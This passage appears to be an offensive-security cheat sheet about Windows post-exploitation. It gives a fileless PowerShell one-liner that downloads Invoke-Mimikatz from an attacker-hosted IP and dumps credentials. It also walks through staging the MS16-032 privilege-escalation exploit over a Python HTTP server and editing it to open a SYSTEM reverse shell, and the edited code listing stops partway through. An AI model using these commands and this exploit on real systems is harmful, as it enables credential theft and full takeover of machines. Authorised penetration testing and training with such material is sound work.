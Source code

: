 
### Running Powershell Mimikatz
The Powershell version is not as frequently updated, but can be loaded into memory without ever hitting the HDD (Fileless execution).  This version simply reflectively loads the Mimikatz binary into memory so we could probably update it ourselves without much difficulty. 

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
Fileless execution of Mimikatz from remotely hosted server:
```
PS C:\> IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Windows Kernel Exploits


### MS16-032
If the remote machine appears to be vulnerable to MS16-032, we can execute a powershell script from a remote server to exploit it.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
Get the Powershell script from FuzzySecurity's Github, add an invoke to the end of the script and share the folder using the python SimpleHTTPServer:

```
root@kali:~test# git clone https://github.com/FuzzySecurity/PowerShell-Suite.git
Cloning into 'PowerShell-Suite'...
remote: Enumerating objects: 378, done.
remote: Total 378 (delta 0), reused 0 (delta 0), pack-reused 378
Receiving objects: 100% (378/378), 5.94 MiB | 2.06 MiB/s, done.
Resolving deltas: 100% (179/179), done.
root@kali:~test# cd PowerShell-Suite/
root@kali:~test/PowerShell-Suite# echo Invoke-MS16-032 >> Invoke-MS16-032.ps1 
root@kali:~test/PowerShell-Suite# python -m Simple
SimpleDialog        SimpleHTTPServer    SimpleXMLRPCServer  
root@kali:~test/PowerShell-Suite# python -m SimpleHTTPServer 80
```
The default version of the MS16-032 script will create a Pop-up CMD.exe window on the remote machine. Unfortunatly, we cannot access this from a limited shell... BUT we can modify the exploit to call a reverse shell.  Its pretty easy to modify it to call a reverse powershell that will connect back to our machine with a System shell.  We will need to modify line 330 of the exploit (the ip address and port will need to be updated of course):
```powershell
		# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		#$CallResult = [Advapi32]::CreateProcessWithLogonW(
		#	"user", "domain", "pass",
		#	0x00000002, "C:\Windows\System32\cmd.exe", "",
		#	0x00000004, $null, $GetCurrentPath,
		#	[ref]$StartupInfo, [ref]$ProcessInfo)

		# Modified to create a Powershell reverse shell 
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, 
			'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', 
```